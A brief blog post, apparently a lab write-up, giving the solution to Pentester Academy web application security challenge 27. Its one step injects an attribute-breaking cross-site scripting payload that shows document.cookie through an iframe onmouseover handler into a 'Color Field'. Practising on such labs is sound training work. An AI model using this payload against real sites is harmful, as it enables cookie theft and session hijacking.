 title: [Pentester Academy] Web Application Security Challenge 27
link: http://localhost/pentester-academy-web-application-security-challenge-27/
author: exploitprotocol
description: 
post_id: 1777
created: 2015/01/08 09:11:35
created_gmt: 2015/01/08 09:11:35
comment_status: open
post_name: pentester-academy-web-application-security-challenge-27
status: publish
post_type: post

# [Pentester Academy] Web Application Security Challenge 27

Inset **"><iframe src="" onmouseover="alert(document.cookie)"><xss input=""** in the Color Field ![](https://i.imgur.com/oYMSZlh.png)